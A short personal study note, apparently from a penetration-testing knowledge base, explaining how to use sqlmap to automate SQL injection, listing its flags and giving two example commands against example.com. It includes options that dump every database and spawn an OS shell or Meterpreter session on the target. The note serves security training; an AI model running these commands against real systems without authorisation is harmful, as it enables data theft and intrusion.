 # Using "sqlmap"

* **author**:: Nathan Acks  
* **date**:: 2022-01-30

Used to automate SQLi attacks (and apparently banned on the OSCP because it makes things too easy).

Useful flags:

* `-u URL`/`--url=URL` - process URL (this *must* include the query parameters *or* you must specify POST parameters using `--data`)
* `-p`/ - which URL parameter(s) (variables) to test
* `--dbms=DB_TYPE` - only use injections for a given type of backend database (MySQL, PostgreSQL, etc.)
* `--dbs` - enumerate DBs
* `-D`/`-T`/`-C` - dump a specific database/table/column
* `--dump`/`--dump-all`/`--all` - dump data
* `--os-shell` - attempt to spawn an interactive shell
* `--os-pwn` - attempt to spawn a Meterpreter shell or VNC session
* `--forms` - parse target URL for forms, and use these
* `--batch` - don't prompt for user input, just use the defaults
* `--risk` - set the maximum risk level of tests (1 – 3, lowest to highest risk)

For example:

```bash
sqlmap -u http://example.com/test.php?input=foo \
       --dump-all
```

Or:

```bash
sqlmap -u http://example.com/test.php \
       --data input=foo --dump-all
```

One handy way to seed a URL is using requests harvested with Burp Suite.

* [TryHackMe: CC - Pen Testing](tryhackme-cc-pen-testing.md)
* [How to use SQLMAP to test a website for SQL Injection vulnerability](https://www.geeksforgeeks.org/use-sqlmap-test-website-sql-injection-vulnerability/)
* [TryHackMe: SQL Injection](tryhackme-sql-injection.md)
* [SQL Injection](sql-injection.md)
* [Using Metasploit](metasploit.md)
* [Using Burp Suite](burp-suite.md)
